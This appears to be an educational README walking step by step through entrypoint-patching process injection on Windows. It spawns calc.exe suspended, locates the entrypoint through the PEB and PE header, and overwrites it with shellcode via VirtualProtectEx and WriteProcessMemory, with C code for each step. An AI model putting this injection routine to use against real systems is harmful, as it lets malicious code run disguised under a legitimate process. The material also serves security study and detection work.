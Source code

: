 # Overview

This method creates a suspended process which will act as a cover since its entrypoint will be patched with a shellcode: in this way the injected code will be run under the identity of the original application, in this case `calc.exe`.

The process will be spawned in a hibernated phase (ie. it will not start automatically afterwards) and then its entrypoint will be substituted with arbitrary code. This is one of the easiest methods to diverge from the expected program behaviour and, at the same time, the most detectable one since the shellcode will be immediately found when checking the entrypoint.

It has to be noted that `calc.exe` will not actually run `calc.exe` alongside the shellcode since part of its code will be overwritten by the shellcode. 

# Process creation

The first thing that has to be done is to create a legit process with [`CreateProcess()`][CreateProcess]. This is accomplished in this way: 
[(source)](CreatePatched#L68-L82)
```c
if (!CreateProcessW((LPWSTR)app_path, // lpApplicationName
                      NULL,             // lpCommandLine
                      NULL,             // lpProcessAttributes
                      NULL,             // lpThreadAttributes
                      NULL,             // bInheritHandles
                      CREATE_SUSPENDED | DETACHED_PROCESS |
                          CREATE_NO_WINDOW, // dwCreationFlags
                      NULL,                 // lpEnvironment
                      NULL,                 // lpCurrentDirectory
                      &si,                  // lpStartupInfo
                      &pi                   // lpProcessInformation
                      )) {
    DBG_ERROR(("CreateProcess failed with error 0x%x\n", GetLastError()));
    return -1;
  }
```
Note the `CREATE_SUSPENDED` flag stops the application from starting automatically after the function call.
If the operation succeeds, the `pi` structure will contain all the information about the newly spawned process.

The execution of the application will be resumed later.

# Calculate the position of the Entrypoint

The entrypoint is where control is transferred from the OS to the binary: the memory pointed by the entrypoint is executable and contains the first instructions run by the application.
In order to change it, we first have to know its address, though.

The required information is located in the **Portable Executable (PE) header**, the file format for executables, object code and DLLs for the Windows operating systems. Here is the official [Microsoft PE and COFF objects specification document][MS PECOFF].

For a quick overview, you can check these resources ([Wikimedia][WM PESTRUCT], [Open RCE poster][ORCE POSTER], [Wikibooks][WB WEF]) which show the header composition and other very useful information.

Let's examine the PE header: [(source)](./CreatePatched.cpp#L85-L89)
```c
  if (ZwQueryInformationProcess(pi.hProcess, 0, &pbi,
                                sizeof(PROCESS_BASIC_INFORMATION), NULL) != 0) {
    DBG_ERROR(("ZwQueryInformation failed with error 0x%x\n", GetLastError()));
    return -1;
  }
```

[`ZwQueryInformationProcess()`][ZwQueryInformationProcess] is called in order to populate the `pbi` structure which will contain the base address of the executable.
It has to be noted that **base address** and **entrypoint** are NOT the same thing since the base address serves as a reference point for other addresses.

The base address and the whole PE header are read through [`ReadProcessMemory()`][ReadProcessMemory]. [(source)](./CreatePatched.cpp#L93-L107)

```c
  if (!ReadProcessMemory(pi.hProcess, (BYTE *)pbi.PebBaseAddress + 8,
                         &BaseAddress, sizeof(BaseAddress), &read_bytes) &&
      read_bytes != sizeof(BaseAddress)) {
    DBG_ERROR(("ReadProcessMemory failed with error 0x%x\n", GetLastError()));
    return -1;
  }
  DBG_SUCC(("Base address: 0x%p\n", BaseAddress));

  DBG_INFO(("Reading PE Header...\n"));
  if (!ReadProcessMemory(pi.hProcess, BaseAddress, header_buf,
                         sizeof(header_buf), &read_bytes) &&
      read_bytes != sizeof(header_buf)) {
    DBG_ERROR(("ReadProcessMemory failed with error 0x%x\n", GetLastError()));
    return -1;
  }
```
The base address can be obtained from the `PEB` opaque structure (mostly undocumented by Microsoft). `pbi.pebAddress+8` points to the second element of the `reserved3` array [(MSDN Documentation)](https://msdn.microsoft.com/it-it/library/windows/desktop/aa813706(v=vs.85).aspx) which corresponds to the image base address ([more here](http://www.nirsoft.net/kernel_struct/vista/PEB.html) and [here](http://www.geoffchappell.com/studies/windows/win32/ntdll/structs/peb/index.htm)). 

To confirm this supposition, `Windbg` provides plenty of information: [(more in the shellcode explanation)](../SHELLCODE.md)
```
0:000> dt ntdll!_PEB
   +0x000 InheritedAddressSpace : UChar
   +0x001 ReadImageFileExecOptions : UChar
   +0x002 BeingDebugged    : UChar
   +0x003 BitField         : UChar
   +0x003 ImageUsesLargePages : Pos 0, 1 Bit
   +0x003 IsProtectedProcess : Pos 1, 1 Bit
   +0x003 IsImageDynamicallyRelocated : Pos 2, 1 Bit
   +0x003 SkipPatchingUser32Forwarders : Pos 3, 1 Bit
   +0x003 IsPackagedProcess : Pos 4, 1 Bit
   +0x003 IsAppContainer   : Pos 5, 1 Bit
   +0x003 IsProtectedProcessLight : Pos 6, 1 Bit
   +0x003 SpareBits        : Pos 7, 1 Bit
   +0x004 Mutant           : Ptr32 Void
   +0x008 ImageBaseAddress : Ptr32 Void
   +0x00c Ldr              : Ptr32 _PEB_LDR_DATA
   +0x010 ProcessParameters : Ptr32 _RTL_USER_PROCESS_PARAMETERS
   +0x014 SubSystemData    : Ptr32 Void
   +0x018 ProcessHeap      : Ptr32 Void
   +0x01c FastPebLock      : Ptr32 _RTL_CRITICAL_SECTION
   +0x020 AtlThunkSListPtr : Ptr32 Void
[snip...]
```

The header is dumped using the previously acquired base address as offset. [(source)](./CreatePatched.cpp#L101-L107)

```c
if (!ReadProcessMemory(pi.hProcess, BaseAddress, header_buf,
                         sizeof(header_buf), &read_bytes) &&
      read_bytes != sizeof(header_buf)) {
    DBG_ERROR(("ReadProcessMemory failed with error 0x%x\n", GetLastError()));
    return -1;
  }
  DBG_SUCC(("Image headers read.\n"));
```

Finally, the header is read and the entrypoint calculated by the `get_opt_hdr` helper function (found in `include/utils.cpp`): [(source)](./CreatePatched.cpp#L117-L118)
```c
  opt_hdr = get_opt_hdr(header_buf);
  ep_rva = opt_hdr.AddressOfEntryPoint;
```

# Injection and execution of the shellcode

It is time to write the shellcode where the entrypoint is pointing to but its memory page is set as read-only (**R--**): to overwrite it we need to set it as writable (**RW-**). This is accomplished by calling [`VirtualProtectEx()`][VirtualProtectEx] which is a function that alters a memory page properties such as executability.
[(source)](./CreatePatched.cpp#L122-L127)
```c
  if (!VirtualProtectEx(pi.hProcess, (BYTE *)BaseAddress + ep_rva,
                        sizeof(g_Shellcode), PAGE_EXECUTE_READWRITE,
                        &oldProtect)) {
    DBG_ERROR(("VirtualProtectEx failed with error 0x%x\n", GetLastError()));
    return -1;
  }
```
It is now possible to write the shellcode on the entrypoint (`BaseAddress + ep_rva`) [(source)](./CreatePatched.cpp#L130-L135)
```c
  if (!WriteProcessMemory(pi.hProcess, (BYTE *)BaseAddress + ep_rva,
                          g_Shellcode, sizeof(g_Shellcode), &read_bytes) &&
      read_bytes != sizeof(g_Shellcode)) {
    DBG_ERROR(("WriteProcessMemory failed with error 0x%x\n", GetLastError()));
    return -1;
  }
```
and finally resume the thread of the original process. [(source)](CreatePatched.cpp#L138)
```c
ResumeThread(pi.hThread);
```


# Resources

* [Source](CreatePatched.cpp)
* [Header](CreatePatched.h)

[MS PECOFF]: http://download.microsoft.com/download/9/c/5/9c5b2167-8017-4bae-9fde-d599bac8184a/pecoff_v83.docx
[WM PESTRUCT]: https://upload.wikimedia.org/wikipedia/commons/7/70/Portable_Executable_32_bit_Structure_in_SVG.svg
[ORCE POSTER]: http://www.openrce.org/reference_library/files/reference/PE%20Format.pdf
[WB WEF]: https://en.wikibooks.org/wiki/X86_Disassembly/Windows_Executable_Files

[CreateProcess]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx
[ZwQueryInformationProcess]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms687420(v=vs.85).aspx
[ReadProcessMemory]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms680553(v=vs.85).aspx
[VirtualProtectEx]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366899(v=vs.85).aspx